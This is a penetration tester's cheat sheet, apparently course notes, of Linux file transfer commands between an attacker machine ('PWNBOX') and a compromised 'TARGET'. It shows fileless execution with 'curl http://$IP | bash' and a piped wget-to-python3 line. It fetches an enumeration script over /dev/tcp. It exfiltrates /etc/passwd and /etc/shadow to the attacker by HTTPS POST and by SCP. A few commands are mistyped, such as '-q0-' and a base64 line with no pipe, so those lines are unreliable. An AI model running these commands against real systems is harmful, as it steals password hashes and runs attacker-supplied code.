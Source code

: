 -----------------
# Download Operations
---------------------------------------
### Base64 Encoding / Decoding
- PWNBOX 
```bash
# Check File MD5 hash
md5sum $file
# Encode the file
cat $file | base64 -w 0;echo
```

- TARGET
```bash
# Decode the file
echo -n $string base64 -d > $file
# Confirm the file MD5 hash
md5sum $file
```

### Web Downloads w/ wget & curl
- Download using wget
```bash
wget http://$IP/file -O $file
```
- Download using cURL
```bash
curl -o $file http://$IP/file
```

### Fileless Attacks Using Linux
- Fileless Download with cURL
```bash
curl http://$IP | bash
```
- Fileless Download with wget
```bash
wget -q0- http://$IP | python3
```

### Download with Bash (/dev/tcp)
- Connect to the TARGET webserver
```bash
exec 3<>/dev/tcp/$IP/80
```
- HTTP GET request
```bash
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
# print the Response
cat <&3
```

### SSH Downloads
- Enable SSH Server
```bash
# Enable the service
sudo systemctl enable ssh
# Start the service
sudo systemctl start ssh
# Check for listening port
netstat -lnpt
```
- Download Files using SCP
```bash
scp $user@$IP:/root/file.txt .
```

-----------------------------------
# Upload Operations
---------------------------------------------
### Web Upload
- PWNBOX - Set up server
```bash 
# Install web server
python3 -m pip install --user uploadserver
# Create a self-signed Certificate
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
# The webserver should not host the certificate. It is recommended to create a new directory to host the file for our website
```
- PWNBOX - Start Web Server
```bash
mkdir https && cd https
python3 -m uploadserver 443 --server-certificate /root/server.pem
```

- TARGET -Upload multiple files
```bash
curl -X POST https://$IP/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
# --insecure is used because we use a self-signed certificate that we trust.
```

### Alternateive Web File Transfer Method
- TARGET
```bash
# Python3
python3 -m http.server 8000
# PHP
php -S 0.0.0.0:8000
# Ruby
ruby -run -ehttpd . -p8000
```
- PWNBOX
```bash
wget $IP:8000/file.txt
```

### SCP Upload
- TARGET - File Upload using SCP
```bash
scp /etc/passwd $user@$IP:/home/file.txt/
```
